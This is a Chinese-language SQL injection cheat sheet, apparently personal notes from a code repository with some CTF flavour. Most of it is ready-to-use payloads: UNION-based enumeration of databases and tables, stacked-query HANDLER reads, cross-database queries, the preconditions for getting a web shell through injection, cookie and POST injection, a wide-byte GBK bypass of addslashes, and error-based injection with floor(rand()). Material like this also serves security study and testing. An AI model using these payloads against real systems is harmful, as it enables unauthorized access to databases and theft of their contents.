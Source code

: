 # sql注入

1' or 1=1# 查看是否存在注入

1'  order by 10# 查看字段

' union select 1,2,3,4 # 显示字段

' union select 1,databases()# 显示数据库

' union select 1,table_name from information_schema.tables where table_schema='databases' 查看表名

# 堆叠注入

;handler FlagHere open;handler FlagHere read first;-


# 跨库注入
* 必须条件，数据库的用户必须是root用户

查看是否是root用户
union select user()%23

然后查看所有数据库名
union select group_concat(schema_name) from information_schema.schemata%23


# sql注入GetShell

* sql注入GetShell的必要条件，数据库的用户必须是root用户

	* union select user()%23

* 必须知道绝对路径，而且数据库配置文件中的secure_file_priv要等于空值
	1. 通过错误爆出路径
	2. 通过网站的遗留文件爆出路径（例如： phpinfo等）
	3. 通过漏洞爆出路径
	4. 根据对方的web服务器类型猜路径

# 多种方式注入

* GET
	- 直接?就行了（例：?id=plaody）

* POST
	- POST请求就是用于表单
	- 可以在表单里注入

* cookie
	- cookie注入就是在cookie里注入sql语句
	- 前提是要得有cookie
	- 注入方式可以使用burpstuie进行注入


# 参数注入类型

* 数字型
	- select * from user where id=1
	- select * from user where id=-1 union select 1,2,3

* 字符型
	- select * from user where id='str'
	- select * from user where id='-1' union select 1,2,3 --+'

* 搜索型
	- select * from user where user like id='%str%'
	- select * from user where user like id='%%'union select 1,2,3 '%%'

# 宽字节注入

宽字节注入条件:

> 使用的过滤php函数是addslashes
>
> mysql的字符编码是GBK编码

原理:

> 宽字节注入是利用mysql的一个特性，mysql在使用GBK编码的时候会认为两个字符是一个汉字(前一个ascii码要大于128，才到汉字的范围)

例子:

> `'` 	-> 	\\' 	%5C%27 	//单引号经过addslashes这个函数给使用反斜杠转义了
>
> %df`'` 	->	%df%5C%27	//因为在GBK编码中两个url编码会被认为是一个汉字所以，插入了%df之后配合%5C这个url编码一起，数据库就会认为这是一个汉字，这样就可以对addslashes函数的反斜杠逃逸出去，做到了sql注入的目的
>
> 注:
>
> ​	不只是%df可以逃逸addslashes的反斜杠，只要是ascii码大于128的字符都可以利用

# insert注入

约束注入

在mysql的低版本中(目前我只在5.0.X的版本中复现成功)，insert插入一个数据，如果插入的数据超过了原本设定的表的字段长度，就会截断超出的部分，并丢弃，然后插入没超出的那些部分。

# 报错注入

`and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

> `rand()` 	-> 	用于产生一个0~1的随机数
>
> `floor()`	-> 	向下取整
>
> rand()函数生成0~1，floor函数向下取整，值是固定的"0"，这里将rand*2，得到的值就是不固定的，"0"或者"1"

> 简化版:
>
> ​	select count(*) from table1 group by floor(rand()\*2)  